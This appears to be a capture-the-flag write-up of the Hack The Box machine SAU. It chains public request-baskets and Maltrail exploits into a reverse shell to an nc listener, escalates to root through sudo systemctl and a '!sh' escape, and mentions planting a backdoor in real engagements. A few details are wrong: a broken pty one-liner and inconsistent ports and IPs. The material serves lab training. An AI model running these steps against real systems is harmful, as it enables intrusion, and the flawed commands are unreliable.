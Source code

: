 ```yaml
---
title: "HTB | SAU"
date: 2024-07-20 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Publicly Available Exploit leads to RCE

**Vulnerability Explanation:** The web application is running, 'request-baskets 1.2.1' and 'Mailtrail v0.53', both of which have a publicly available exploit on github. Using the exploit leads to RCE.

**Vulnerability Fix:** Update the web application to the latest patch or remove it if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** The initial scan revealed that TCP port 55555 is open. Christian discovered a vulnerable version of 'request-baskets' running. A public exploit was found off of github and used and it revealed another service running called "Mailtrail". Another publicly available exploit was found for this application and was used to gain RCE.

**Port Scan Results**

**TCP:** 22, 55555

**UDP:** NA

Use nmap to scan the target for open ports.

TCP port 22, 80 was discovered.

```shell
sudo nmap -p- -T5 10.10.11.244 -oN nmap.initial
```
![img-description](/assets/img/HTB/SAU/1.png)

Port 55555 is hosting a web server running a service called. 'request-baskets 1.2.1' as seen on the bottom left corner.

![img-description](/assets/img/HTB/SAU/2.png)

A publicly available exploit is on github. Save the exploit to a file named 'exploit.sh' and run it again the web server. Navigating to the generated link will reveal another service running called 'Mailtrail'.

* [https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

```shell
chmod +x exploit.sh
```

```shell
./exploit.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

![img-description](/assets/img/HTB/SAU/3.png)

![img-description](/assets/img/HTB/SAU/4.png)

A publicly availble exploit can be found for Mailtrail on github. Save the exploit to a file named 'exploit.py', start a nc listener on our host machine, and run the exploit to gain RCE on the target machine.

* [https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

```shell
nc -nlvp 4444
```

```shell
chmod +x exploit.py
```

```shell
./exploit.py http://10.10.11.224:55555 10.10.16.2 4444
```

![img-description](/assets/img/HTB/SAU/5.png)
![img-description](/assets/img/HTB/SAU/6.png)


We have successfully obtained initial access to the target machine as user 'puma'.

## Privilege Escalation - Sudo Privileges + GTFOBins

**Vulnerability Explanation:** The user 'puma' has access to run a command with sudo privileges. This allows for an attacker to abuse known vulnerabilities to elevate privileges.

**Vulnerability Fix:** Remove the available sudo privileges command from the 'puma' account if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian ran the command 'sudo -l' to list the sudo privileged commands available to the user 'puma'. A command was found using 'systemctl'. Christian was able to gain a 'root' shell through the sudo command and GTFOBins. 

Upgrade the shell and run the command 'sudo -l' to list the command that 'puma' can run as sudo.

```shell
python3 -c 'import pty:pty.spawn("/bin/bash")'
```

```shell
sudo -l
```

![img-description](/assets/img/HTB/SAU/7.png)

We have access to the command '/usr/bin/systemctl status trail.service'. Using the site GTFOBin, we can elevate our privileges by simply running the command '!sh' then enter.

* [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)

```shell
sudo /usr/bin/systemctl status trail.service
```

```shell
!sh
```
```shell
python3 -c 'import pty:pty.spawn("/bin/bash")'
```

![img-description](/assets/img/HTB/SAU/8.png)


## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.
